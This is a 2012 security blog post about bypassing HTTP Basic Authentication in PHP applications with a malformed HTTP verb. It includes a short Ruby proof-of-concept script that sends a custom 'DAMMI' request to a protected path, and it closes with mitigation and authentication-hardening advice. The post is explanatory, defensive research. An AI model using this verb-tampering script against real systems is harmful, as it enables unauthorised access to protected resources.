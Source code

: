 ```yaml
---
layout: post
title: "Bypassing HTTP Basic Authentication in PHP application nominated as hacking technique for 2012"
date: 2012-12-13 07:51
comments: true
published: true
featured: false
categories: 2012 breakers appsec php basic-authentication design 
thumb: php.png
level:
hn: 
rd: 
---
```


Authentication is a cool topic in application security research nowadays. Last
April I posted about a real world security assessment activities over a friend
of mine PHP powered portal.

Using a malformed HTTP verb to request a protected resource, it is possible to
bypass the authentication mechanism for a PHP 5.3 written web application.

[The post I wrote](http://armoredcode.com/blog/bypassing-basic-authentication-in-php-applications/)
was mentioned in Jeremiah Grossman list for 
[the top 10 hacking technique of 2012](http://blog.whitehatsec.com/top-ten-web-hacking-techniques-of-2012/)

<!-- more -->

## Original work by...

I recap that almost 3 years ago researchers found that 
[it was possible to bypass basic auth in Zend powered portal](http://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/) 
and that [this vulnerability is not Zend specific](http://eguaj.tumblr.com/post/2361187940/re-hackers-bypass-htaccess-security-by-using-gets).

In order to support custom WebDAV verbs, PHP interpreter when it founds an
unknown verb it gives the script the control about how to handle that method.
Of course this can be mitigated in .htaccess file specifying which HTTP verbs
are allowed let all other verbs to be discarded.

## The attacking script

A raw ruby script implementing the technique described in [my post](http://armoredcode.com/blog/bypassing-basic-authentication-in-php-applications/) is the following:

``` ruby dammi.rb
#!/usr/bin/env ruby

require 'net/http'

class Dammi < Net::HTTPRequest
  METHOD="DAMMI"
  REQUEST_HAS_BODY = false
  RESPONSE_HAS_BODY = true
end

raise "usage: dammi url page" if ARGV.length != 2

begin
  http=Net::HTTP.new(ARGV[0], 80)
  r_a = http.request(Dammi.new(ARGV[1]))
  puts r_a.body
rescue => e
  puts e.message
end
``` 

The script needs two parameters: the host and the url to be requested. **There
is no** error checking on parameter passed from command line so you may want to
add your own in order to have a pure defensive code.

```
$ ./dammi.rb localhost /protected_resource
```

The following line is in my webserver's log:

``` 
127.0.0.1 - - [13/Dec/2012 08:14:17] "DAMMI /protected_resource HTTP/1.1" 404 40 0.0008
``` 

## Off by one

The fundamental rule here is that HTTP Basic Authentication is something you
want to use in your development or testing environment to protect your
application **before** you deploy it in production.

I rather suggest you not to use HTTP Basic Authentication at all, choosing a
strong authentication mechanism. Supporting OAuth is a great deal since you
demand all credentials issue to a well known authentication provider (e.g.
Twitter, Facebook, Github.).

Look at [this post](http://armoredcode.com/blog/crafting-an-authentication-subsystem-that-rocks-for-your-padrino-application-with-omniauth/) if you need to implement OAuth in a Padrino powered application using Omniauth.

As general rules, you may also want to apply:

1. Backends must be strongly protected by a login form with username and
   passwords
2. Passwords **must not** be saved in plaintext but encrypted using SHA-256 or
   SHA-512. Using bcrypt is **even better**.
3. Login forms must be served over an HTTPS connection
4. Your server side scripts must **always** check for authentication token in
   the HTTP session or wherever you choose to save it
5. Never trust users.


Enjoy it!

